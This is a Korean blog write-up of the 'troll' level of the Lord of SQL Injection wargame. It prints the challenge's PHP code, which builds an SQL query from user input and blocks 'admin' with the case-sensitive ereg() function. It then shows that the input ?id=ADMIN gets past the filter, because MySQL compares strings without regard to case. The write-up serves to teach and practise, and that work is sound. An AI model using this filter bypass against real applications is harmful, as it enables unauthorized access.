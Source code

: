 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - troll 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제의 이름은 `troll`이다.  

중간중간에 좀 쉬운 문제들이 있어서 하루에 여러개 빠박! 풀고 싶은데 그러면 내가 일을 안할 것 같으니 한문제 씩만 풀어야겠다.  

이번 문제는 매우 간단하다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_troll where id=''
-------------------------------------------------------------

<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

쿼리를 완성시켜 `id`가 `admin`인 결과를 가져오면 된다.  

그런데 코드 중간을 보면 `ereg("admin", %_GET['id'])`라는 부분이 있다.  

`ereg()` 함수는 정규표현식을 이용해서 일치하는 문자열이 있는지를 찾아주는 함수이다.  

이 문제에서는 사용자가 입력 한 `id`에  `admin`이라는 문자열이 있는지 없는지를 검사한다.  

`id`가 `admin`인 결과를 추출해야 하는데 `admin`에 필터링이 걸려있다.  

그래서 `ereg()` 함수에 오류가 있거나 필터링이 완벽하지 않을 것이라고 생각하고 문제에 접근했다.  

이 전에도 몇번 언급했다시피 `MySQL`에서는 대소문자 구분이 없다.  

때문에 `id`가 `admin`인 결과를 추출하기 위해서 쿼리의 `where`절에 `admin`, `Admin`, `ADMIN` 등을 입력해도 결국 같은 값을 얻을 수 있다.  

찾아보니 `ereg()` 함수는 대소문자를 구분하는 함수이다.  

그래서 `admin`이라는 단어가 있다면 `true`를 반환하겠지만 `Admin`, `ADMIN` 처럼 한 글자라도 대문자로 구성한다면 `false`를 반환 할 것이다.  

그렇다면 필터링도 우회하고 쿼리도 정상적으로 실행 해 문제를 풀 수 있다.  

역시나 아래와 같이 입력했더니 문제를 풀 수 있었다.  

```
?id=ADMIN
```

```php
--------------------------------------------------------
query : select id from prob_troll where id='ADMIN'
--------------------------------------------------------

TROLL Clear!
<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

`TROLL Clear!!`